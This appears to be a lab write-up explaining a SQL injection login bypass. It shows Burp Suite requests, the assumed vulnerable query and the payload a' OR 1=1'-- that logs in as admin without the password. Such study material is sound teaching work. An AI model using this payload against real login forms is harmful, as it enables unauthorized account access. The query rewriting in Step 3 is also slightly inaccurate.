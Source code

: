 
---

# 📖 High-Level Summary:

This lab demonstrates a **SQL Injection login bypass** by exploiting logical flaws in SQL queries. The injection payload manipulates the application's SQL query to always return a **true condition**, enabling unauthorized access without knowing the password.

---

# 📚 Definition Bank:

|**Term**|**Definition**|**Key Notes**|
|---|---|---|
|**SQL Injection (SQLi)**|A web vulnerability that allows attackers to interfere with an application’s database queries.|Exploits improperly sanitized inputs to execute arbitrary SQL commands.|
|**Login Bypass**|A SQL Injection technique that manipulates the authentication query to always evaluate to true.|Commonly achieved by appending `OR 1=1` to bypass password checks.|
|**Logical Operators**|Operators like `AND` and `OR` are used in SQL to combine multiple conditions.|**`OR 1=1`** ensures that the condition evaluates to true regardless of other inputs.|

---

# 🎯 Steps and Commands:

### Step 1: Identify SQL Injection

1. Use valid credentials to log in:
    - **Credentials**:
        
        ```plaintext
        Username: admin
        Password: admin
        ```
        
2. Observe the POST request in Burp Suite:
    
    ```plaintext
    POST /v1/002.php
    Body:
    {
      "username": "admin",
      "password": "admin"
    }
    ```
    
3. Test for SQL injection by replacing `"admin"` with a single quote (`'`):
    - Updated Request:
        
        ```json
        {
          "username": "admin",
          "password": "'"
        }
        ```
        
    - **Response:** A SQL error confirms the application is vulnerable to injection.

---

### Step 2: Understand the SQL Query

- The application likely runs a query like this:
    
    ```sql
    SELECT * FROM users WHERE username='$username' AND password='$password'
    ```
    
- Injecting the payload manipulates it as follows:
    
    ```sql
    SELECT * FROM users WHERE username='admin' AND password='a' OR 1=1'
    ```
    
    - **Explanation:**
        - `username='admin'` is **true** because "admin" is a valid username.
        - `password='a' OR 1=1` evaluates to **true** because `1=1` is always true.
        - The final condition becomes true, bypassing authentication.

---

### Step 3: Craft the Payload

1. **Payload:**
    
    ```plaintext
    a' OR 1=1'--
    ```
    
    - **Breaking It Down:**
        - The single quote (`'`) closes the `password` input.
        - `OR 1=1` ensures the condition is true.
        - `--` comments out the rest of the SQL query to prevent syntax errors.
2. **Final SQL Query:**
    
    ```sql
    SELECT * FROM users WHERE username='admin' AND (password='a' OR 1=1)--
    ```
    

---

### Step 4: Execute the Attack

1. Send the payload via Burp Suite Repeater:
    
    - Updated Request:
        
        ```json
        {
          "username": "admin",
          "password": "a' OR 1=1'--"
        }
        ```
        
    - **Response:** A successful login message.
2. Test in the Login Form:
    
    - Input:
        - Username: `admin`
        - Password: `a' OR 1=1'--`
    - **Result:** A modal popup confirms successful login.

---

# ✅ Key Takeaways:

1. **Logical Flaws:** SQL injection exploits logical conditions (e.g., `OR 1=1`) to bypass authentication checks.
2. **Injection Placement:** Understanding query structure is critical to crafting successful payloads.
3. **Quotes and Syntax:** Properly closing and balancing quotes ensures the payload does not cause syntax errors.

---